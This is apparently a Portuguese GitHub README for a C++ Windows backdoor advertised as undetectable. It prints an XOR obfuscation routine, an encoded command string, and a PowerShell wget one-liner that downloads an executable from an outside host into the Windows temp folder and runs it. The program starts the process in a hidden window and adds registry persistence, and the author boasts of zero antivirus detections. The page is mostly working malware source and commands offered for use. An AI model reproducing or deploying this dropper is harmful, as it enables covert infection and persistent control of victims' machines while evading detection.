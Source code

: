 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
Para explicar resumidamente, ele cria um array Decrypter de nosso array char e faz o xors de volta usando a chave para converter o valor criptografado para o valor original e os armazena no array de dados descriptografado que criamos anteriormente. Com a ajuda disso, se alguém executar strings, não será capaz de ver nenhum comando no executável. Eles precisariam entender a matemática e definir um ponto de interrupção adequado no Debugger. 
<br />
A equação matemática da criptografia xor que fiz foi bem simples, a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própria string desejada. se quiser saber mais sobre criptografica xor que fiz ![clica aqui](https://github.com/andreyquerino/CriptografiaXor).

```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // Tamanho da string * 2 / 100.
    } 
} 
```
![Encript](https://user-images.githubusercontent.com/88719652/129620582-31e6f1bc-1025-4365-8511-b6aac50d4ac0.png)

### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, mas antes, A função Decrypter vai fazer a decodificação da string no tempo da execução antes de abrir o processo onde os seguintes comando são coordenados para fazer, o download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executalo.

> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
https://user-images.githubusercontent.com/88719652/129621046-196b336d-e839-473c-8691-9380c64cf998.mp4

### Persistência
Como bônus tive a liberdade de criar um registro de persistência no windows onde toda vez que iniciar o sistema vai abrir o executável.

![persistencia](https://user-images.githubusercontent.com/88719652/129620696-eac13434-65d5-407f-8987-7b69fdc930f2.png)


### Virus Total 
Até a data desta postam, não teve nenhuma detecção no virus total.

![virus-total](https://user-images.githubusercontent.com/88719652/129620707-6fe47fc6-3df1-44e9-aea7-15f0c8aa3494.png)

